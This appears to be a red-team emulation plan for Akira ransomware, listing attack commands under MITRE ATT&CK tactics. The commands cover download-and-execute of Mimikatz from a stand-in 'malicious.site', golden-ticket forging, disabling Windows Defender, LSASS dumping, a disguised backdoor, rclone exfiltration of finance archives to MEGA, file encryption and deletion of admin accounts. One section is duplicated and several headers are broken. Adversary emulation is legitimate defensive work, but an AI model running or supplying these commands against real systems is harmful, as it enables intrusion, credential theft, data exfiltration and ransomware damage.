 # Akira Ransomware Emulation Plan

## Initial Access (TA0001)

# T1133 - External Remote Services (VPN compromise)

# T1078 - Valid Accounts (RDP with stolen creds)
xfreerdp /v:10.0.0.100 /u:admin /p:'P@ssw0rd!' +drive:/tmp/share +clipboard /dynamic-resolution
Execution (TA0002)
bash
# T1059.001 - PowerShell (Credential harvesting)
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Execution (TA0002)

# T1059.001 - PowerShell (Credential harvesting)
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Persistence (TA0003)

# T1219 - Remote Access Software (AnyDesk install)
curl -o AnyDeskSetup.exe https://download.anydesk.com/AnyDesk.exe && AnyDeskSetup.exe --install C:\ProgramData\AnyDesk --silent --start-with-win
Privilege Escalation (TA0004)

# T1558 - Kerberos Ticket Theft (Mimikatz)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-123456789 /krbtgt:a1b2c3d4e5f6g7h8 /ptt" exit

## Defense Evasion (TA0005)

# T1562.001 - Disable Windows Defender
powershell -exec bypass -c "Set-MpPreference -DisableRealtimeMonitoring \$true; Set-MpPreference -DisableIOAVProtection \$true"

# T1036.005 - Masquerading (System32 mimic)
copy C:\malware\backdoor.exe C:\Windows\System32\svchost.exe /y

## Credential Access (TA0006)

# T1003.001 - LSASS Dumping (Procdump)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

## Discovery (TA0007)

# T1482 - Domain Trust Discovery
nltest /domain_trusts /all_trusts

# T1018 - Remote System Discovery
for /l %i in (1,1,254) do @ping -n 1 -w 100 10.0.0.%i | find "Reply" 

## Lateral Movement (TA0008)

# T1021.001 - RDP Lateral Movement
cmdkey /generic:TERMSRV/10.0.1.100 /user:DOMAIN\Admin /pass:P@ssw0rd! && mstsc /v:10.0.1.100

## Collection (TA0009)

# T1213.002 - SharePoint Data Collection
powershell -c "(New-Object Net.WebClient).DownloadFile('https://sharepoint.corp.com/Shared%20Documents/secret.docx', 'C:\Temp\secret.docx')"

## Exfiltration (TA0010)

# T1560.001 - Archive with WinRAR
"C:\Program Files\WinRAR\Rar.exe" a -hpP@ssw0rd -r -m5 C:\exfil\finance.rar C:\Finance\*

# T1567.002 - Rclone Exfiltration
rclone copy C:\exfil\finance.rar mega:exfil/Akira_Operation -v --config=rclone.conf

## Impact (TA0040)

# T1486 - File Encryption (Akira ransomware)
akira.exe --encrypt --path C:\ --extensions ".doc,.pdf,.xls" --key RSA_PUBLIC_KEY

# T1531 - Account Deletion
net user Administrator /delete && net user BackupAdmin /delete

